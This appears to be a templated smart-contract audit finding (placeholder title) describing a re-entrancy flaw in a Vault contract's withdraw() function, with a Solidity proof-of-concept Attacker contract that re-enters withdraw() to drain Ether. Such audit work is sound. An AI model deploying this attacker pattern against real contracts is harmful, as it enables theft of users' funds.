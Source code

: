 
## High Risk Findings

### H-01: Title of High Risk Finding

- **Relevant Files:** `src/Vault.sol`

#### Vulnerability Details

The `withdraw()` function transfers Ether via `.call{value: amount}("")` before updating the user's balance. This violates the Checks-Effects-Interactions pattern. An attacker can create a malicious contract with a `receive()` or `fallback()` function that re-enters the `withdraw()` function, allowing them to drain more funds than their balance permits.

#### Impact

This vulnerability allows a malicious actor to drain the entire Ether balance of the `Vault` contract. This is a direct and total loss of all user funds held in the contract.

#### Proof of Concept (PoC)

A Foundry test case demonstrating the re-entrancy attack.

```solidity
// test/Reentrancy.t.sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/Vault.sol";

contract Attacker {
    Vault public vault;
    uint256 public attackCount = 0;

    constructor(address _vault) {
        vault = Vault(_vault);
    }
    
    function attack() external payable {
        vault.deposit{value: msg.value}();
        vault.withdraw();
    }

    receive() external payable {
        if (address(vault).balance > 0 && attackCount < 5) {
            attackCount++;
            vault.withdraw();
        }
    }
}
```
